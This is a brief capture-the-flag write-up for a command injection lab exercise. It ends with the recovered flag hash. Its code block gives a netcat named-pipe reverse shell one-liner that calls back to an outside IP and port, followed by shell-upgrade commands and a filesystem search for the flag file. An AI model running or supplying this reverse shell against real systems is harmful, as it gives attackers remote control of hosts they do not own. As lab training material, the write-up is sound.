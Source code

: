 ![](2020-09-29_14-41.png)

`cat /etc/update-motd.d/00-header`

`DR PEPPER`

## Get The Flag!

Good work getting this far!  You've completed the walkthrough, learned about command injection; what it is and how to test for it, and now it's time to prove what you've got!  Exploit the vulnerability and get the flag!  For this, you can exploit either page.  Both are vulnerable.

1. Get the flag!

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.106.222 9001 >/tmp/f

python -c 'import pty;pty.spawn("/bin/bash")'

stty raw -echo

find / 2>/dev/null | grep flag.txt
```

`65fa0513383ee486f89450160f3aa4c4`
